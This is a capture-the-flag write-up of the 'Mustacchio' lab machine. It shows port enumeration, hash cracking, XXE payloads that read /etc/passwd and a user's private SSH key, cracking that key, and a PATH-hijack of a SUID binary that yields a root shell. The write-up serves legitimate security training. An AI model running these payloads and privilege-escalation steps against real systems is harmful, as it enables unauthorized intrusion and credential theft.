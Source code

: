 ##Mustacchio

#Enumeration
```
# Nmap 7.91 scan initiated Sun Jun 20 11:21:54 2021 as: nmap -sCV -oN nmap/initial -vvv -p 22,80,8765 10.10.236.197
Nmap scan report for 10.10.236.197
Host is up, received reset ttl 61 (0.15s latency).
Scanned at 2021-06-20 11:21:54 PDT for 18s

PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 61 OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 58:1b:0c:0f:fa:cf:05:be:4c:c0:7a:f1:f1:88:61:1c (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC2WTNk2XxeSH8TaknfbKriHmaAOjRnNrbq1/zkFU46DlQRZmmrUP0uXzX6o6mfrAoB5BgoFmQQMackU8IWRHxF9YABxn0vKGhCkTLquVvGtRNJjR8u3BUdJ/wW/HFBIQKfYcM+9agllshikS1j2wn28SeovZJ807kc49MVmCx3m1OyL3sJhouWCy8IKYL38LzOyRd8GEEuj6QiC+y3WCX2Zu7lKxC2AQ7lgHPBtxpAgKY+txdCCEN1bfemgZqQvWBhAQ1qRyZ1H+jr0bs3eCjTuybZTsa8aAJHV9JAWWEYFegsdFPL7n4FRMNz5Qg0BVK2HGIDre343MutQXalAx5P
|   256 3c:fc:e8:a3:7e:03:9a:30:2c:77:e0:0a:1c:e4:52:e6 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBCEPDv6sOBVGEIgy/qtZRm+nk+qjGEiWPaK/TF3QBS4iLniYOJpvIGWagvcnvUvODJ0ToNWNb+rfx6FnpNPyOA0=
|   256 9d:59:c6:c7:79:c5:54:c4:1d:aa:e4:d1:84:71:01:92 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGldKE9PtIBaggRavyOW10GTbDFCLUZrB14DN4/2VgyL
80/tcp   open  http    syn-ack ttl 61 Apache httpd 2.4.18 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 1 disallowed entry
|_/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Mustacchio | Home
8765/tcp open  http    syn-ack ttl 61 nginx 1.10.3 (Ubuntu)
| http-methods:
|_  Supported Methods: GET HEAD POST
|_http-server-header: nginx/1.10.3 (Ubuntu)
|_http-title: Mustacchio | Login
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jun 20 11:22:12 2021 -- 1 IP address (1 host up) scanned in 18.18 seconds

```

ssh a web server and what looks like a login panel let start by looking at the web server

#Web Server Port 80
```
/images               (Status: 301) [Size: 315] [--> http://10.10.236.197/images/]
/about.html           (Status: 200) [Size: 3152]
/blog.html            (Status: 200) [Size: 3172]
/contact.html         (Status: 200) [Size: 1450]
/index.html           (Status: 200) [Size: 1752]
/gallery.html         (Status: 200) [Size: 1950]
/custom               (Status: 301) [Size: 315] [--> http://10.10.236.197/custom/]
/robots.txt           (Status: 200) [Size: 28]
/fonts                (Status: 301) [Size: 314] [--> http://10.10.236.197/fonts/]

```

Enumerating with gobuster finds all the pages we found while looking around the site manually but we also find a custom directory. Upon examing this directory we can then go to a js directory that contains a interesting file users.bak
```
YtableusersusersCREATE TABLE users(username text NOT NULL, 0]{redacted_username}{redacted_hash}

```

We find can put the hash into crackstation and quickly crack the hash and now possibly have credentials lets go to the admin page we found earlier and see if they work.

Our credentials do infact work and we get a adminpanel page where we can add a comment on the website. If we look at the source code/attempt to submit a blank comment we get the alert Insert XML Code so we might be looking at an XXE Injection vector also we see the following interesting comment
```
<!-- Barry, you can now SSH in using your key!-->

```

So looks like the user barry might have an exposed ssh key we can access via xxe. Furthermore in the code we find this comment
```
 //document.cookie = "Example=/auth/dontforget.bak"; 
```

Which contains the following file content
```
<?xml version="1.0" encoding="UTF-8"?>
<comment>
  <name>Joe Hamd</name>
  <author>Barry Clad</author>
  <com>his paragraph was a waste of time and space. If you had not read this and I had not typed this you and I could’ve done something more productive than reading this mindlessly and carelessly as if you did not have anything else to do in life. Life is so precious because it is short and you are being so careless that you do not realize it until now since this void paragraph mentions that you are doing something so mindless, so stupid, so careless that you realize that you are not using your time wisely. You could’ve been playing with your dog, or eating your cat, but no. You want to read this barren paragraph and expect something marvelous and terrific at the end. But since you still do not realize that you are wasting precious time, you still continue to read the null paragraph. If you had not noticed, you have wasted an estimated time of 20 seconds.</com>
</comment> 

```

So now we know how to structure a valid xml request for this form so we craft the following sample payload
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
   <!ELEMENT data ANY >
   <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<comment>
  <name>Joe Hamd</name>
  <author>Barry Clad</author>
  <com>&xxe;</com>
</comment> 

```

We get the returned the following
```
Comment Preview:

Name: Joe Hamd

Author : Barry Clad

Comment :
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false syslog:x:104:108::/home/syslog:/bin/false _apt:x:105:65534::/nonexistent:/bin/false lxd:x:106:65534::/var/lib/lxd/:/bin/false messagebus:x:107:111::/var/run/dbus:/bin/false uuidd:x:108:112::/run/uuidd:/bin/false dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false sshd:x:110:65534::/var/run/sshd:/usr/sbin/nologin pollinate:x:111:1::/var/cache/pollinate:/bin/false joe:x:1002:1002::/home/joe:/bin/bash barry:x:1003:1003::/home/barry:/bin/bash

```

So we have xxe and we confirm that barry's home directory is in fact in /home/barry so lets modifiy our payload and see if we can get his ssh key
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
   <!ELEMENT data ANY >
   <!ENTITY xxe SYSTEM "file:///home/barry/.ssh/id_rsa" >]>
<comment>
  <name>Joe Hamd</name>
  <author>Barry Clad</author>
  <com>&xxe;</com>
</comment> 
```

We successfully retrieve the ssh key but it is encrypted so lets use ssh2john then crack it
```
python /usr/share/john/ssh2john.py barry_id_rsa > barry_id_rsa_hash

john --wordlist=/usr/share/wordlists/rockyou.txt barry_id_rsa_hash

```

We quickly are able to crack the pass and the use the ssh key to gain a foothold

#Privilege Escalation
We find the user.txt flag in barry's home directory. We try and check for sudo privileges but the credential used for barry's key doesn't work here. However we find the following when looking for suid files
```
barry@mustacchio:~$ find / -type f -perm -4000 2>/dev/null
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/snapd/snap-confine
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/passwd
/usr/bin/pkexec
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/at
/usr/bin/chsh
/usr/bin/newgidmap
/usr/bin/sudo
/usr/bin/newuidmap
/usr/bin/gpasswd
/home/joe/live_log
/bin/ping
/bin/ping6
/bin/umount
/bin/mount
/bin/fusermount
/bin/su
```

The /home/joe/live_log binary stands out here. Looking at the binary with strings we find the following line that stands out
```
tail -f /var/log/nginx/access.log

```

There is no absolute path defined for this tail command so we can modify our path to a directory we have permissions in and create our own tail file to instead give us a shell. We will use barry's home directory to accomplish this but using a directory such as /tmp or /dev/shm is often a more consistant choice. We do the following
```
barry@mustacchio:~$ echo "/bin/bash" > tail
barry@mustacchio:~$ chmod +x tail
barry@mustacchio:~$ export PATH=/home/barry:$PATH
```

So now when we execute the binary /home/joe/live_log it should use our modified path and use our custom shell producing tail binary
```
barry@mustacchio:~$ /home/joe/live_log
root@mustacchio:~#
```

We successfully have a root shell and can find the root flag at /root/root.txt